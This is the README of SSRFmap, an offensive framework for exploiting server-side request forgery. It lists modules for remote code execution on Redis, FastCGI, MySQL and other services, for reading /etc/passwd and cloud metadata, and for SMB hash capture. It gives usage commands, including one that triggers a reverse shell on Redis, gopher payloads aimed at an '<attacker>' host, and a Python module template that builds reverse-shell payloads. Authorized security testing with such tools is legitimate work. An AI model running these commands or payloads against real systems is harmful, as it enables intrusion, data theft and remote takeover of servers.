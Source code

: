 # SSRFmap [![Python 3.4+](https://img.shields.io/badge/python-3.4+-blue.svg)](https://www.python.org/downloads/release/python-360/) [![Rawsec's CyberSecurity Inventory](https://inventory.raw.pm/img/badges/Rawsec-inventoried-FF5050_flat.svg)](https://inventory.raw.pm/)


SSRF are often used to leverage actions on other services, this framework aims to find and exploit these services easily. SSRFmap takes a Burp request file as input and a parameter to fuzz.

> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## Summary

* [Modules](#modules)
* [Install and Manual](#install-and-manual)
* [Examples](#examples)
* [SSRFmap - Tests](#ssrfmap-tests)
* [Contribute](#contribute)
  * [Contributors](#thanks-to-the-contributors)


## Modules

The following modules are already implemented and can be used with the `-m` argument.

| Name           | Description    |
| :------------- | :------------- |
| `fastcgi`      | FastCGI RCE |
| `redis`        | Redis RCE |
| `github`       | Github Enterprise RCE < 2.8.7 |
| `zabbix`       | Zabbix RCE |
| `mysql`        | MySQL Command execution |
| `postgres`     | Postgres Command execution |
| `docker`       | Docker Infoleaks via API |
| `smtp`         | SMTP send mail |
| `portscan`     | Scan top 8000 ports for the host |
| `networkscan`  | HTTP Ping sweep over the network |
| `readfiles`    | Read files such as `/etc/passwd` |
| `alibaba`      | Read files from the provider (e.g: meta-data, user-data) |
| `aws`          | Read files from the provider (e.g: meta-data, user-data) |
| `gce`          | Read files from the provider (e.g: meta-data, user-data) |
| `digitalocean` | Read files from the provider (e.g: meta-data, user-data) |
| `socksproxy`   | SOCKS4 Proxy |
| `smbhash`      | Force an SMB authentication via a UNC Path |
| `tomcat`       | Bruteforce attack against Tomcat Manager |
| `custom`       | Send custom data to a listening service, e.g: netcat |
| `memcache`     | Store data inside the memcache instance |


## Install and Manual

Basic install from the Github repository.

```powershell
$ git clone https://github.com/swisskyrepo/SSRFmap
$ cd SSRFmap/
$ pip3 install -r requirements.txt
$ python3 ssrfmap.py

  usage: ssrfmap.py [-h] [-r REQFILE] [-p PARAM] [-m MODULES] [-l HANDLER]
                    [-v [VERBOSE]] [--lhost LHOST] [--lport LPORT]
                    [--uagent USERAGENT] [--ssl [SSL]] [--level [LEVEL]]

  optional arguments:
    -h, --help          show this help message and exit
    -r REQFILE          SSRF Request file
    -p PARAM            SSRF Parameter to target
    -m MODULES          SSRF Modules to enable
    -l HANDLER          Start an handler for a reverse shell
    -v [VERBOSE]        Enable verbosity
    --lhost LHOST       LHOST reverse shell
    --lport LPORT       LPORT reverse shell
    --uagent USERAGENT  User Agent to use
    --ssl [SSL]         Use HTTPS without verification
    --proxy PROXY       Use HTTP(s) proxy (ex: http://localhost:8080)
    --level [LEVEL]     Level of test to perform (1-5, default: 1)
```

## Examples

First you need a request with a parameter to fuzz, Burp requests works well with SSRFmap. 
They should look like the following. More examples are available in the **/data** folder.

```powershell
POST /ssrf HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mysimple.ssrf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: close
Upgrade-Insecure-Requests: 1

url=https%3A%2F%2Fwww.google.fr
```

Use the `-m` followed by module name (separated by a `,` if you want to launch several modules).

```powershell
# Launch a portscan on localhost and read default files
python ssrfmap.py -r data/request.txt -p url -m readfiles,portscan
```

If you need to have a custom user-agent use the `--uagent`. Some targets will use HTTPS, you can enable it with `--ssl`.

```powershell
# Launch a portscan against an HTTPS endpoint using a custom user-agent
python ssrfmap.py -r data/request.txt -p url -m portscan --ssl --uagent "SSRFmapAgent"
```

Some modules allow you to create a connect back, you have to specify LHOST and LPORT. Also SSRFmap can listen for the incoming reverse shell.

```powershell
# Triggering a reverse shell on a Redis
python ssrfmap.py -r data/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```

When the target is protected by a WAF or some filters you can try a wide range of payloads and encoding with the parameter `--level`.

```powershell
# --level : ability to tweak payloads in order to bypass some IDS/WAF. e.g: 127.0.0.1 -> [::] -> 0000: -> ...
```

## SSRFmap Tests

A quick way to test the framework can be done with `data/example.py` SSRF service.

```powershell
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

## Contribute

I :heart: pull requests :)
Feel free to add any feature listed below or a new service.
  - Redis PHP Exploitation 
  - HTTP module (Jenkins ?)
  ```powershell
  gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
  gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
  ```

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name          = "servicename in lowercase"
description   = "ServiceName RCE - What does it do"
author        = "Name or pseudo of the author"
documentation = ["http://link_to_a_research", "http://another_link"]

class exploit():
    SERVER_HOST = "127.0.0.1"
    SERVER_PORT = "4242"

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Handle args for reverse shell
        if args.lhost == None: self.SERVER_HOST = input("Server Host:")
        else:                  self.SERVER_HOST = args.lhost

        if args.lport == None: self.SERVER_PORT = input("Server Port:")
        else:                  self.SERVER_PORT = args.lport

        # Data for the service
        # Using a generator to create the host list
        # Edit the following ip if you need to target something else
        gen_host = gen_ip_list("127.0.0.1", args.level)
        for ip in gen_host:
            port = "6379"
            data = "*1%0d%0a$8%0d%0aflus[...]%0aquit%0d%0a"
            payload = wrapper_gopher(data, ip , port)

            # Handle args for reverse shell
            payload = payload.replace("SERVER_HOST", self.SERVER_HOST)
            payload = payload.replace("SERVER_PORT", self.SERVER_PORT)

            # Send the payload
            r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or via Github Sponsor button.

### Thanks to the contributors

- [ttffdd](https://github.com/ttffdd)

## Inspired by

- [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! - Orange Tsai](https://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
- [Blog on Gopherus Tool  -SpyD3r](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/)
- [Gopherus - Github](https://github.com/tarunkant/Gopherus)
- [SSRF testing - cujanovic](https://github.com/cujanovic/SSRF-Testing)
